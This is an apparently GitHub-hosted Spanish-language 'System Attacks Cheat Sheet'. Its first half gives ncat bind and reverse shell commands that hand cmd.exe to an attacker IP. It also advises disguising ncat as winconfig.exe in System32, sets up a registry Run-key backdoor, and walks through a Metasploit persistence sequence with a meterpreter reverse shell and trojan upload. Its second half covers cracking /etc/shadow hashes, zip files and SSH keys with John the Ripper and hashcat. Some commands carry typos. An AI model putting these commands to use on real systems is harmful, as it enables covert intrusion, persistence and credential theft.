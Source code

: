 # System Attacks Cheat Sheet

- [Backdor](#backdoor)
  - [Ncat](#ncat)
    - [Ejemplo básico](#ncat-ejemplo-1)
    - [Cliente conectándose a la máquina atacante y entregando una shell](#ncat-ejemplo-2)
    - [Backdoor persistente](#ncat-ejemplo-3)
  - [Metasploit con sesión en Meterpreter](#metasploit-meterpreter)
- [Cracking offline](#cracking-offline)
  - [John The Ripper](#john)
    - [Ejemplo de cracking hashes de usuarios en entornos Unix](#john-2)
    - [Opciones para ver los resultados del john](#john-3)
    - [Ejemplo de cracking archivo zip](#john-4)
    - [Ejemplo de cracking archivo RSA SSH](#john-5)
    - [Ejemplo de cracking de un usuario en específico usando fuerza bruta](#john-6)
    - [Ejemplo de cracking de usuarios en específicos usando un diccionario y reglas](#john-7)
  - [UNSHADOW](#unshadow)
  - [Hashcat](#hashcat)
    - [Realizar prueba Benchmark](#hashcat-2)
    - [Prueba usando diccionario](#hashcat-3)
    - [Uso de Rule-based attack](#hashcat-4)
    - [Uso de fuerza bruta (Mask attack)](#hashcat-5)

<h2 id="backdoor">Backdoor</h2>

<h3 id="ncat"><a href="https://nmap.org/ncat/">Ncat</a></h3>

Utilidad de red que permite leer y escribir datos a través de la red usando la CLI.

Para la utilización de esta herramienta en la victima, se recomienda cambiar su nombre, con la finalidad de no levantar sospechas (ejemplo: usar el nombre winconfig.exe, y guardarlo en System32).

`ncat [option]`

```
-l: Se deja al equipo en modo escucha
-p [port]: Se define el puerto con el cual se trabajará
-e [exe]: Archivo a ejecutar cuando se inicie la comunicación entre servidor y cliente
-v: Verbose
```

<h4 id="ncat-ejemplo-1">Ejemplo básico</h4>

Servidor windows, escuchando en el Puerto 5555 y al momento de iniciar la comunicación iniciará el software CMD:

`wincofig -l -p 5555 -e cmd.exe`

Cliente linux que obtiene una shell desde la máquina windows:

`ncat 192.168.1.200 -p 5555`

<h4 id="ncat-ejemplo-2">Cliente conectándose a la máquina atacante y entregando una shell</h4>

Atacante:

`ncat -l -p 5555 -v`

Víctima:

`winconfig -e cmd.exe 192.168.1.100 5555`

<h4 id="ncat-ejemplo-3">Backdoor persistente</h4>

Atacante:

`ncat -l -p 5555 -v`

Víctima:

1. run > regedit
2. Ir a HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
3. Clic derecho > New > String Value
4. Ingresar los siguientes datos:
  - `Name=winconfig`
  - `Data=”C:\Windows\System32\winconfig.exe 192.168.1.100 5555 –e cmd.exe”`

> Para que esto funcione, el usuario debe logearse en su cuenta. Una vez logeado, se iniciará el backdoor.

<h3 id="metasploit-meterpreter">Metasploit con sesión en Meterpreter</h3>

```bash
# Módulo que permite crear una tarea programada en el target
use exploit/Windows/local/s4u_persistence
# Configuración de la session, la cual, puede ser conocida con el comando sessions
# Para saber que opción se debe configurar, usar el comando show options
# Esta sesión se debería obtener con una explotación previa a la máquina objetivo.
set session 1
# Se iniciará esta tarea cuando el usuario inicie sesión
set trigger logon
# Utilización del payload que carga un meterpreter con shell reversa
set payload windows/meterpreter/reverse_tcp
# Configuración de la IP local
set lhost 192.168.1.100
# Configuración del puerto local
set lport 5555
# Ejecución del exploit en la sesión 1 para cargar la tarea programada instalando una shell reversa que entrega un meterpreter
exploit
# Luego de cargar la shell reversa, usar el siguiente exploit que permite quedar a la escucha del inicio de la sesión del objetivo
use exploit/multi/handler
# Configurar el payload para usar un reverse shell TCP con meterpreter
set payload windows/meterpreter/reverse_tcp
# Volver a configurar estas opciones si es que se desconfiguraron, validar con el commando show options
set lhost 192.168.1.100
set lport 5555
# Iniciar el exploit para escuchar la comunicación entrante del objetivo
exploit
```

Luego de la explotación, se pueden ejecutar los siguientes comandos desde la terminal de meterpreter:

```bash
ifconfig
# Los screenshots son guardados en /root (en Kali)
screenshot
pwd
ls
cd
cat
download c:\\flag.txt /root/flags
upload evil_trojan.exe c:\\windows\\system32
sysinfo
ps
help
```

<h2 id="cracking-offline">Cracking offline</h2>

<h3 id="john">John The Ripper</h3>

JTR o John, es una herramienta que es utilizada para realizar cracking offline de archivos y passwords. John posee varios scripts para pasar de un formato a formato John.

`john --wordlist=[wordlist] [option] [file_to_crack]`

```
--format=[file_format]: Opcional. Indicar el tipo de formato del archivo, para saber los formatos soportados con esta opción, usar --list=formats
--users:[user_list]: Indicar que usuarios del archivo se quieren crackear
--incremental[=mode]: Modo de crackeo que intenta todas las combinaciones de carácteres posibles
--rules[=rules_file]: Habilita las reglas
```

<h4 id="john-2">Ejemplo de cracking hashes de usuarios en entornos Unix</h4>

```
unshadow /etc/passwd /etc/shadow > hashes
john --wordlist=/usr/share/john/password.lst hashes
```

<h4 id="john-3">Opciones para ver los resultados del john</h4>

```
cat /root/.john/john.pot
john --show hashes
```

<h4 id="john-4">Ejemplo de cracking archivo zip</h4>

```
zip2john cipher.zip > cipherHash
john --format=zip --wordlist=/usr/share/wordlists/rockyou.txt cipherHash
```

<h4 id="john-5">Ejemplo de cracking archivo RSA SSH</h4>

```
python /usr/share/john/ssh2john.py id_rsa > sshCrack.txt
john --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt sshCrack.txt
```

<h4 id="john-6">Ejemplo de cracking de un usuario en específico usando fuerza bruta</h4>

`john --incremental --user:root hashes`

<h4 id="john-7">Ejemplo de cracking de usuarios en específicos usando un diccionario y reglas</h4>

`john --wirdlist=/usr/share/wordlists/rockyou.txt --rules --user:root,w0lff4ng hashes`

<h3 id="unshadow">UNSHADOW</h3>

Herramienta que viene incorporada con JTR, la cual, permite combinar la información de los archivos passwd y shadow.

`unshadow /etc/passwd /etc/shadow > [file_name]`

```
/etc/passwd: Este fichero registra los usuarios del sistema
/etc/shadow: Fichero que almacena las password cifradas del sistema
```

<h3 id="hashcat">Hashcat</h3>

Herramienta de recuperación de contraseñas, la cual permite crackear múltiples tipo de algoritmos.

Se recomienda que al usar hashcat, esta se encuentre instalada en la máquina host, y no en una VM.

`hashcat.exe [option] [hash] [attack_mode]`

> [Option](https://hashcat.net/wiki/doku.php?id=hashcat#options)

```
-b: Realizar una prueba Benchmark
-m [number]: Especificar el tipo de hash
-a [number]: Modo de ataque
-D [string]: Tipo de dispositivo a usar
-r [file_name.rule]: Regla a usar
```

<h4 id="hashcat-2">Realizar prueba Benchmark</h4>

`hashcat.exe -b`

<h4 id="hashcat-3">Prueba usando diccionario</h4>

`hascat.exe -m 0 -a 0 -D 2 example0.hash example.dic`

<h4 id="hashcat-4">Uso de <a href="https://hashcat.net/wiki/doku.php?id=rule_based_attack">Rule-based attack</a></h4>

`hascat.exe -m 0 -a 0 -D 2 example0.hash example.dic -r rule\best64.rule`

<h4 id="hashcat-5">Uso de fuerza bruta (<a href="https://hashcat.net/wiki/doku.php?id=mask_attack">Mask attack</a>)</h4>

En el siguiente [link](https://hashcat.net/wiki/doku.php?id=mask_attack#built-in_charsets) se pueden ver la combinación de carácteres:

```
hashcat.exe -m 0 -a 3 example0.hash ?L?L?L?L?L?L?L?L?a
hashcat.exe -m 0 -a 3 example0.hash ?a?a?a?a?a?a?a?a?a
```
